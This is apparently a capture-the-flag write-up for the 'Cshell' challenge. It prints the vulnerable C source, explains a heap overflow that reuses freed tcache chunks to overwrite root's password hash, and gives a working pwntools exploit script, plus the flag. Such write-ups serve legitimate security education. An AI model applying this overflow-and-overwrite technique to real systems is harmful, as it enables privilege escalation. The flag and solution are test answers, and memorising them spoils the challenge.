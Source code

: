 ```text
My friend Hevr thinks I can't code, so I decided to prove him wrong by making a restricted shell in which he is unable to play squad. I must add that my programming skills are very cache money...
nc pwn.be.ax 5001
```
We're provided a binary and source. 
### Cshell.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <crypt.h>
//gcc Cshell.c -static -lcrypt -o Cshell
struct users {
	char name[8];
	char passwd[35];
};
struct tracker{
	struct tracker *next;
	struct users *ptr;
	char name[8];
	long int id;
};
char * alex_buff;
char * Charlie_buff;
char * Johnny_buff;
char * Eric_buff;
struct users *user;
struct users *root;
struct tracker *root_t;
struct tracker *user_t;
char *username[8];
char *userbuffer;
int uid=1000;
int length;
char salt[5] = "1337\0";
char *hash;
void setup(){
	char password_L[33];
	puts("Welcome to Cshell, a very restricted shell.\nPlease create a profile.");
	printf("Enter a username up to 8 characters long.\n> ");
	scanf("%8s",username);
	printf("Welcome to the system %s, you are our 3rd user. We used to have more but some have deleted their accounts.\nCreate a password.\n> ",username);
	scanf("%32s",&password_L);
	hash = crypt(password_L,salt);
	printf("How many characters will your bio be (200 max)?\n> ");
	scanf("%d",&length);
	userbuffer = malloc(length + 8);
	printf("Great, please type your bio.\n> ");
	getchar();
	fgets((userbuffer + 8),201,stdin);
}
void logout(){
	fflush(stdin);
	getchar();
	struct tracker *ptr;
	printf("Username:");
	char username_l[9];
	char password_l[32];
	char *hash;
	scanf("%8s",username_l);
	for (ptr = root_t; ptr != NULL; ptr = root_t->next) {
        if (strcmp(ptr->name, username_l) == 0) {
		printf("Password:");
	    scanf("%32s",password_l);
	    hash = crypt(password_l,salt);
	    if (strcmp(hash,ptr->ptr->passwd) == 0){
		    strcpy(username,ptr->name);
		    uid = ptr->id;
		    puts("Authenticated!");
		    menu();
	    }
	    else{
		    puts("Incorrect");
		    logout();
	    }
			 
        }
	else
	{
		if (ptr->next==0)
		{
			puts("Sorry no users with that name.");
			logout();
		}
	}
    }
}
void whoami(){
	printf("%s, uid: %d\n",username,uid);
	menu();
}
void bash(){
	if (uid == 0){
		system("bash");
	}
	else 
	{
		puts("Who do you think you are?");
		exit(0);
	}
}
void squad(){
	puts("..");
	menu();
}
void banner(){
puts("       /\\");
puts("      {.-}");
puts("     ;_.-'\\");
puts("    {    _.}_");
puts("    \\.-' /  `,");
puts("     \\  |    /");
puts("      \\ |  ,/");
puts("       \\|_/");
puts("");
}
void menu(){
	puts("+----------------------+");
	puts("|        Commands      |");
	puts("+----------------------+");
	puts("| 1. logout            |");
	puts("| 2. whoami            |");
	puts("| 3. bash (ROOT ONLY!) |");
	puts("| 4. squad             |");
	puts("| 5. exit              |");
	puts("+----------------------+");
	int option;
	printf("Choice > ");
	scanf("%i",&option);
	switch(option){
		case 1:
			logout();
		case 2:
			whoami();
		case 3:
			bash();
		case 4:
			squad();
		case 5:
			exit(0);
		default:
			puts("[!] invalid choice \n");
			break;
	}
}
void history(){
	alex_buff = malloc(0x40);
	char alex_data[0x40] = "Alex\nJust a user on this system.\0";
	char Johnny[0x50] = "Johnny\n Not sure why I am a user on this system.\0";
	char Charlie[0x50] ="Charlie\nI do not trust the security of this program...\0";
	char Eric[0x60] = "Eric\nThis is one of the best programs I have ever used!\0";
	strcpy(alex_buff,alex_data);
	Charlie_buff = malloc(0x50);
	strcpy(Charlie_buff,Charlie);
	Johnny_buff = malloc(0x60);
	strcpy(Johnny_buff,Johnny);
	Eric_buff = malloc(0x80);
	strcpy(Eric_buff,Eric);
	free(Charlie_buff);
	free(Eric_buff);
}
int main(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
	root_t = malloc(sizeof(struct tracker));
	user_t = malloc(sizeof(struct tracker));
	history();
	banner();
	user = malloc(sizeof(struct users )* 4);
	root = user + 1;
	strcpy(user->name,"tempname");
	strcpy(user->passwd,"placeholder");
	strcpy(root->name,"root");
	strcpy(root->passwd,"guessme:)");
	strcpy(root_t->name,"root");
	root_t->ptr = root;
	root_t->id = 0;
	root_t->next = user_t;
	setup();
	strcpy(user->name,username);
	strcpy(user->passwd,hash);
	strcpy(user_t->name,username);
	user_t->id=1000;
	user_t->ptr = user;
	user_t->next = NULL;
	menu();
	return 0;
}
```
So, the first thing I noted here was that we don't need to exploit for code execution. If we can set uid to 0, it'll just give us a shell. The vulnerability is in the setup function. It asks for the length of our bio buffer, allocates a chunk of that size, and then reads 201 bytes into it for a fairly hefty heap overflow. The issue is that it's essentially the last heap chunk allocated so there isn't anything useful afterwards. We can force it to allocate an earlier chunk by taking advantage of some libc malloc behavior -- that it will reuse previously freed chunks of matching sizes. The heap layout around that area looks something like Alex -> Charlie -> Eric -> User -> Root. Both Charlie and Eric are freed chunks, which means we can get the setup to allocate those chunks again and overflow. At this point we can overwrite the saved password of root, log into root, and then ask politely for a shell. 
```python
#!/usr/bin/env python3
from pwn import *
exe = ELF("Cshell")
context.binary = exe
context.terminal = "kitty"
def conn():
    if args.REMOTE:
        return remote("pwn.be.ax", 5001)
    elif args.GDB:
        return gdb.debug([exe.path])
    else:
        return process([exe.path])
def main():
    r = conn()
    payload = flat({
        187: b"13iAJxIb3oOPs" # "hi" hashed
    })
    r.sendline(b"abcd")
    r.sendline(b"hi")
    r.sendline(b"120") # reuse a previous freed alloc
    r.send(payload)
    r.sendline(b"1")
    r.sendline(b"root")
    r.sendline(b"hi")
    r.sendline(b"3")
    # good luck pwning :)
    r.interactive()
if __name__ == "__main__":
    main()
```
The flag is corctf{tc4ch3_r3u5e_p1u5_0v3rfl0w_equ4l5_r007}
